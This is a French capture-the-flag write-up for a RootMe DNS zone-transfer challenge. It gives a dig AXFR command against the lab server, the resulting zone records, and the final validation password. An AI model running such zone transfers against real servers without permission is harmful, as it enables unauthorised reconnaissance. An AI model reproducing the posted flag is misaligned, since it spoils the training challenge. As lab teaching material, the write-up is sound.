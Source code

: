 # Challenge RootMe :DNS - Transfert de Zone

- **Catégorie** : Réseau  
- **Difficulté** : ⭐⭐
- **Objectif** : Récupérer le mot de passe de validation en exploitant une mauvaise configuration de transfert de zone DNS.

---

## 📝 Étapes de résolution

### 1. Identification de la cible
- **Hôte** : `challenge01.root-me.org`
- **Port** : `54011`
- **Domaine** : `ch11.challenge01.root-me.org`
- **Protocole** : `DNS`

### 2. Exécution de la commande de transfert de zone
Utilisation de l'outil `dig` pour lancer une requête de transfert de zone :
```bash
dig @challenge01.root-me.org -p 54011 AXFR ch11.challenge01.root-me.org.
```

### 3. Analyse de la réponse DNS

La réponse obtenue présente plusieurs enregistrements DNS. Un extrait significatif de la réponse est le suivant :

```bash
ch11.challenge01.root-me.org. 604800 IN SOA     ch11.challenge01.root-me.org. root.ch11.challenge01.root-me.org. 2 604800 86400 2419200 604800
ch11.challenge01.root-me.org. 604800 IN TXT     "DNS transfer secret key : CBkFRwfNMMtRjHY"
ch11.challenge01.root-me.org. 604800 IN NS      ch11.challenge01.root-me.org.
ch11.challenge01.root-me.org. 604800 IN A       127.0.0.1
challenge01.ch11.challenge01.root-me.org. 604800 IN A 192.168.27.101
```

### 4. Récupération du mot de passe

L'enregistrement TXT contient le mot de passe de validation :

```plaintext
DNS transfer secret key : CBkFRwfNMMtRjHY
```
Ce qui nous permet d'obtenir directement le flag.

- **🛠 Outils utilisés**
- dig : Utilitaire DNS en ligne de commande
- Terminal UNIX/Linux : Pour exécuter la commande

- **🏆 Solution finale**
Mot de passe :
```plaintext
CBkFRwfNMMtRjHY
```
